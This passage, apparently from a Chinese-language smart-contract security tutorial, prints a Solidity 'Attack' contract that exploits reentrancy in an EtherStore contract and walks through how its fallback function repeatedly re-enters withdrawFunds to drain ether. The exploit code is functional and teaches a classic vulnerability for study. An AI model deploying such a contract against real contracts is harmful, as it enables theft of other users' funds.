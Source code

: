 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./EtherStore.sol"; // 确保路径正确

contract Attack {
    EtherStore public etherStore;

    // 初始化 etherStore 变量
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }
  
    function pwnEtherStore() public payable {
        // 攻击需要至少 1 个以太
        require(msg.value >= 1 ether, "Insufficient Ether");
        // 调用 EtherStore 的 depositFunds 函数
        etherStore.depositFunds{value: 1 ether}();
        // 开始攻击
        etherStore.withdrawFunds(1 ether);
    }

    function collectEther() public {
        // 将合约中的余额发送给调用者
        payable(msg.sender).transfer(address(this).balance);
    }
    
    // fallback 函数 - 攻击的核心逻辑
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdrawFunds(1 ether);
        }
    }
}
```

让我们看看这个恶意合约是如何利用我们的 EtherStore 合约的。攻击者可以（假定恶意合约地址为 0x0...123）使用 EtherStore 合约地址作为构造函数参数来创建上述合约。这将初始化并将公共变量 etherStore 指向我们想要攻击的合约。

然后攻击者会调用 pwnEtherStore() 函数，并存入一些 Ether（大于或等于 1），比方说 1 Ether，在这个例子中。我们假设一些其他用户已经将若干 Ether 存入这份合约中，比方说它的当前余额就是 10 ether。然后会发生以下情况：

1. Attack.sol -Line [15] - EtherStore 合约的 depositFunds 函数将会被调用，并伴随 1 Ether 的 msg.value（和大量的 Gas）。sender(msg.sender) 将是我们的恶意合约 （0x0...123）。因此， balances[0x0..123] = 1 ether。
2. Attack.sol - Line [17] - 恶意合约将使用一个参数来调用合约的 withdrawFunds() 函数。这将通过所有要求（合约的行 [12] - [16] ），因为我们以前没有提款。
3. EtherStore.sol - 行 [17] - 合约将发送 1 Ether 回恶意合约。
4. Attack.sol - Line [25] - 发送给恶意合约的 Ether 将执行 fallback 函数。
5. Attack.sol - Line [26] - EtherStore 合约的总余额是 10 Ether，现在是 9 Ether，如果声明通过。
6. Attack.sol - Line [27] - 回退函数然后再次动用 EtherStore 中的 withdrawFunds() 函数并“重入” EtherStore 合约。
7. EtherStore.sol - 行 [11] - 在第二次调用 withdrawFunds() 时，我们的余额仍然是 1 Ether，因为 行[18] 尚未执行。因此，我们仍然有 balances[0x0..123] = 1 ether。lastWithdrawTime 变量也是这种情况。我们再次通过所有要求。
8. EtherStore.sol - 行[17] - 我们撤回另外的 1 Ether。
9. 步骤 4-8 将重复 - 直到 EtherStore.balance >= 1，这是由 Attack.sol - Line [26] 所指定的。
10. Attack.sol - Line [26] - 一旦在 EtherStore 合约中留下少于 1（或更少）的 Ether，此 if 语句将失败。这样 EtherStore 就会执行合约的 行[18]和 行[19]（每次调用 withdrawFunds() 函数之后都会执行这两行）。
11. EtherStore.sol - 行[18]和[19] - balances 和 lastWithdrawTime 映射将被设置并且执行将结束。
